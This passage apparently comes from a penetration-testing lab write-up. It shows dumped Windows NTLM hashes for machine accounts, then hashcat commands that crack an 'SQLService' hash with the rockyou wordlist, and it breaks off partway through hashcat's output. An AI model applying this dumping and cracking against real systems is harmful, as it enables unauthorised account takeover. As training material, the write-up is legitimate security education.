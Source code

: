     RID  : 00000455 (1109)
    User : DESKTOP-2$
    LM   :
    NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

    RID  : 00000456 (1110)
    User : DESKTOP-1$
    LM   :
    NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
    ```

Let us start by cracking the SQLService: `hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt`

hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

??? output "hashcat"
    ``` txt
    fab1@kali:~$ hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt
    hashcat (v6.1.1) starting...

    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    =============================================================================================================================
    * Device #1: pthread-Intel(R) Xeon(R) Platinum 8171M CPU @ 2.60GHz, 13896/13960 MB (4096 MB allocatable), 4MCU

    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256

    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Applicable optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
    If you want to switch to optimized backend kernels, append -O to your commandline.
    See the above message to find out about the exact limits.

    Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.

    Host memory required for this attack: 65 MB

    Dictionary cache built:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 2 secs
